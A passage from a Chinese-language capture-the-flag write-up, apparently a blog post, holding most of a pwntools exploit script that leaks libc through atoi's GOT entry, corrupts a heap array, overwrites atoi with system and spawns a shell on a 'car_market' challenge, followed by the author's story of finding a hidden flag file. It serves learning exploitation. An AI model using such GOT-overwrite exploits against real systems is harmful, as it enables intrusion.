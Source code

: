 ```python exp_car.py
    data   = ["comment", "A"*33]
    sel_car_cust(16, zip(choice, data))   
    
    # add comment and overwrite customer pointer, change it to atoi@got.plt
    log.info("modifying car 15 struct (for leaking got)...")
    r.sendlineafter(">\n", "4") # add customer
    r.sendlineafter(">\n", "3") # add comment
    r.sendlineafter(": \n", p64(0x1111) + p64(elf.got['atoi']))
    r.sendlineafter(">\n", "4") # exit customer menu
    r.sendlineafter(">\n", "5") # exit select car menu
    
    # leak atoi's got
    log.info("leaking atoi's got & libc base...")
    leak_got(15)
    system = libc.symbols['system']
    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system))

    # overwrite customer pointer to heap_base+0x10
    log.info("modifying car 15 struct (for corrupting car array)...")
    choice = [3]
    data   = [p64(0x1111) + p64(heap_base+0x10)]
    sel_car_cust(16, zip(choice, data))   
    r.sendlineafter(">\n", "5") # exit select car menu

    # free & reallocate heap_base+0x10 , now we can control the car array 
    # after we control the car array, overite car[14] and make it point to atoi's got
    log.info("modifying car array...")
    choice = [3]
    data   = ["A"*0x20+p64(elf.got['atoi'])]
    sel_car_cust(15, zip(choice, data))   
    r.sendlineafter(">\n", "5") # exit select car menu
    
    # overwrite atoi's got
    log.info("overwriting atoi's got...")
    r.sendlineafter(">\n", "4") # select car
    r.sendlineafter("index\n", "14") # input index
    r.sendlineafter(">\n", "2") # set model (atoi's got)
    r.sendlineafter("model\n", p64(system))
    r.sendline("sh\x00")

    log.success("get shell !")
    r.interactive()
```
寫完 exploit 之後拿來跑，然後就 timeout 了... 

傳到 trello 請 Ann Tsai 幫忙跑之後就去睡了，結果醒來時卻發現這題還沒過 @@ 
原來是 Ann Tsai 在拿到 shell 之後找不到 flag ?! 

結果用她的機器進行測試的時候發現 flag 藏在一個頗猥瑣的位置

<pre>
$ ls -la
total 40
drwxr-x--- 2 root marketpwn  4096 Sep  8 10:02 .
drwxr-xr-x 3 root root       4096 Sep  8 09:51 ..
lrwxrwxrwx 1 root marketpwn     9 Sep  8 09:59 .bash_history -> /dev/null
-rw-r--r-- 1 root marketpwn   220 Sep  8 09:51 .bash_logout
-rw-r--r-- 1 root marketpwn  3771 Sep  8 09:51 .bashrc
-rwxr-xr-x 1 root marketpwn 10504 Sep  8 09:56 car_market
-r--r----- 1 root marketpwn    39 Sep  8 09:57 ._flag
-rw-r--r-- 1 root marketpwn   655 Sep  8 09:51 .profile
-rwxr-xr-x 1 root marketpwn   104 Sep  8 09:56 wrapper.sh
</pre>
